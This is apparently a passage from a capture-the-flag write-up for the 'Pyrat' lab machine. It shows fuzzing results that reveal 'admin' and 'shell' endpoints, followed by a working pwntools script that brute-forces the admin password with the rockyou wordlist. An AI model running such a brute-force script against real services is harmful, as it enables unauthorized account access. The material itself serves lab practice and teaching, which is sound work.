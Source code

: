 ```python
    fuzz()
```

Found the following interesting endpoints :

```
-----------------------------------------------------------
[+] admin : ENDPOINT VALID RAHHHHH : b'Password:\n'
-----------------------------------------------------------
-----------------------------------------------------------
[+] shell : ENDPOINT VALID RAHHHHH : b''
-----------------------------------------------------------
```

Have to figure out a way to brute-force the admin endpoint password.

The following script did the trick :

```python
from pwn import *

context.log_level = 'error' # Suppress non-error logs

host = "pyrat.thm"

port = 8000

password_file = "/usr/share/wordlists/rockyou.txt"

endpoint = "admin"

def connect():
    return remote(host=host, port=port)

def attempt(pwd):
    conn = connect()
    conn.sendline(endpoint.encode())
    resp = conn.recvline(timeout=2)
    print(resp)

    conn.sendline(pwd.encode())

    result = conn.recvline(timeout=2)

    if result == b'Password:\n':
        print(f"{pwd} : Incorrect Password!")
        conn.close()

    else:
        print(f"{pwd} : {result}")
        conn.close()

def brute_force():
    wordlist = open(password_file, 'r')
    for pwd in wordlist:
        pwd = pwd.strip()
        if pwd.startswith('#') or not pwd:
            continue
        else:
            attempt(pwd)

if __name__ == "__main__" :
    brute_force()
```
